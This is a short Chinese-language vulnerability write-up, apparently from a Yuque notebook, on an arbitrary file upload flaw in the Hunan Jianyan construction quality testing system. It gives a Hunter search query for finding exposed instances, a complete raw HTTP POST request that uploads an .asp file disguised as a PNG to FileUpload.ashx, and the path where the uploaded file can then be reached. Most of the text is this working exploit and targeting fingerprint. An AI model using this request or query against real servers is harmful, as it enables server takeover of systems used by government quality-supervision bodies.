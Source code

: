 # 湖南建研工程质量检测系统FileUpload存在任意文件上传漏洞

# 一、漏洞简介
湖南建研质量监测系统由相关政府质量监督机构、参建单位等共同参与，根据各自的职责，上网操作相应的模块，实现工程质量监督业务的统一管理。该系统存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 湖南建研工程质量检测系统

# 三、资产测绘
+ hunter`web.body="/Content/Theme/Standard/webSite/login.css"`
+ 特征

![1702346060563-9e664378-c6d3-46b6-84b3-8d0043c714cd.png](./img/IwfdowcgtbTh-STO/1702346060563-9e664378-c6d3-46b6-84b3-8d0043c714cd-785769.png)

# 四、漏洞复现
```plain
POST /Platform/System/FileUpload.ashx HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Connection: close
Content-Length: 336
Accept-Encoding: gzip
Content-Type: multipart/form-data; boundary=----YsOxWxSvj1KyZow1PTsh98fdu6l

------YsOxWxSvj1KyZow1PTsh98fdu6l
Content-Disposition: form-data; name="file"; filename="YsOxWxSvj1KyZow1PTsh98fdu63.asp"
Content-Type: image/png

123
------YsOxWxSvj1KyZow1PTsh98fdu6l
Content-Disposition: form-data; name="target"

/Applications/SkillDevelopAndEHS/
------YsOxWxSvj1KyZow1PTsh98fdu6l--
```

![1703507070360-9784a7d0-7511-4b04-81d2-07f780b073f8.png](./img/IwfdowcgtbTh-STO/1703507070360-9784a7d0-7511-4b04-81d2-07f780b073f8-646404.png)

上传文件位置

```plain
/Applications/SkillDevelopAndEHS/YsOxWxSvj1KyZow1PTsh98fdu63.asp
```

![1703507089398-37c89680-29c6-44ae-8fcf-a39b42416248.png](./img/IwfdowcgtbTh-STO/1703507089398-37c89680-29c6-44ae-8fcf-a39b42416248-473006.png)



> 更新: 2024-02-29 23:55:43  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/hua2qyfh2eyq7raf>
